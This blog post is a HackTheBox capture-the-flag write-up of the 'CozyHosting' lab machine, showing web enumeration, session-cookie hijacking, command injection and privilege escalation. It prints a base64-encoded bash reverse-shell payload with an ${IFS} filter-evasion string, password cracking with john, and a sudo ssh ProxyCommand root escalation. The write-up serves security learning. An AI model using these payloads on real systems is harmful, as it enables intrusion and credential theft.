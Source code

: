 HackTheBox write up: “CozyHosting” Machine
==========================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/1*8PgWCWtteykN7zPXDqImEQ.jpeg)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-cozyhosting-machine-8b55beb59ace&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----8b55beb59ace---------------------post_header-----------)

5 min read·Just now

\--

Listen

Share

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/879cc2ee-bedc-448e-8f5a-1fdc65ee1e8c)


Welcome To HACKTHEBOX:CozyHosting machine writeup. It is an easy machine with a focus on web application vulnerabilities and privilage escalation vulnerabilities.

we first start by running a basic nmap scan against the machine ip

```
nmap -sV -sC 10.10.11.230 
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c3c02c60-5f67-4549-b72e-d91dec6843fe)


We can see here that we have port 22 and 80 open, which indicates the existance of web application running on port 80, and SSH service running on port 22, lets take a look at the web application
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/5f3096be-c5ba-4ede-a450-7b96c86c73e0)


Web application

we can observe a web application with a login functionailty, we can visit and try testing for SQL Injection in the login page, but without success.

next step is to enumerate the web application for any hidden directories, we can use different tools, i personally prefer Dirsearch.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/df171dce-4bed-4cf0-9c99-c1a235303f92)


we found few intresting directories, by visiting them, we can find valuable information in the /actuator/sessions directory, as it contains session cookies for the users
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/eed4db23-58ae-4ba5-84fc-735bcbbb12f0)


And by trying to visit the /admin panel, and intercepting the requesting, modifying the session cookie and replacing it with the one we got from /actuator/sessions, we find that we get redirected to the admin dashboard with the admin “kanderson” logged in.

After a quick inspection to the dashboard we find that there is a feature to add a new host to the automatic patching.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/480cc798-d6b1-4544-8ea1-807df7c4e3f6)


After trying to submit data through it, and analyzing the requests in the burpsuite proxy, we find that the submit button calls and endpoint /excutessh
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/39720675-c0e6-4e09-8fdf-b0e9854b87d2)


after poking with it alittle, we find that submitting single quote returns the following error:

```
http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching \`''/bin/bash: -c: line 2: syntax error: unexpected end of file
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/687529cc-c0f0-4827-ad2c-545c139697ea)


which allows for the possibilty of command injection, lets try using our payload

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

we are going to base64 encode our payload that that we dont have to use spaces in the payload, as the application filters it out

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

`${IFS%??}` Explanation:

*   `${IFS}`: This is a special shell variable in Unix-like operating systems that stands for "Internal Field Separator." By default, it is set to a space, tab, and newline characters. It's used by the shell to split lines into fields when processing commands.
*   `${IFS%??}`: This is a string manipulation construct in the shell. It trims the last two characters from the `${IFS}` variable. So, if `${IFS}` is set to the default value (space, tab, newline), `${IFS%??}` effectively removes the last two characters (newline and tab) and leaves only the space character, which is required for the payload to run correctly.

Additionally, as the web application may interpret the special characters differently or sanitize them to prevent malicious commands from being executed, we URLEncode our payload.

we start a listener and submit our payload, and we get a reverse connection

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/0894c592-d909-4ca0-96c2-2e03d064644f)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/26b6cfd2-e020-4d48-9666-3c57a00fdebf)

Upon listing looking for files, we find a directory named josh in the /home directory, but we cant access it, we can also see a .jar file in the /app, we download this file into our machine for futher inspection.

we can download it by running a python http.server and then using wget from our machine to download the file.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/563a5ea9-f256-4642-bfc8-a0bf72b5e5e7)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/b118bb7c-6327-4de8-b946-e1bb25a7459d)



we can start inspecting this file using tool like jd-gui
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/906a8cca-c720-4475-808b-837b5534946f)


after inspecting we can find that it contains postgres database credentials like the username and the password, so we try to login in to the postgres database using the commnads:

```
psql -h 127.0.0.1 -U postgres
``````
\\c cozyhosting
``````
\\d #to list availabe databases
``````
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c7d07dc7-f747-413d-b30a-b5511df006b4)

``````
select \* from users; #To select all data in the users database
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/2032451d-df9e-4898-8a5a-75523888c34c)

the passwords is hashed, we can try to crack it using john the ripper, with the following command, pointing to the wordlist to use ( in this case rockyou.txt will be sufficient )

```
john hash.txt --wordlist=/home/zeronull/rockyou.txt
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/d0966515-7398-4b64-a993-8df4d8349f9b)

now we can try to use this password to ssh into the machine using the user josh

```
ssh josh@10.10.11.230 
```

And we succesfully log in with the user josh, and we can access his directory, and access the user flag.txt

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/7086d8bb-afe1-44c8-88a7-edaffc56b70f)


Privilege Escalation
====================

As for the root flag, we need to do Privilege Escalation in order to access the root directory.

we start by checking the allowed commands for our user to run as root without the passowrd, we check by running sudo -l
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/42fe3acc-e0e8-49aa-b3f5-7181f9e65855)


we see that we can run (root) /usr/bin/ssh \* as root without having to have the root password, lets check the GTFObins if we can abuse this to escalate our privileges to root.

we find:

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/35470ea6-3de5-4d88-a001-c83bcd1a66df)

and by running

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

we get our root access successfully.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/5ba8b86b-ecc1-491b-b34a-447710706520)

and thats how we get our root flag.
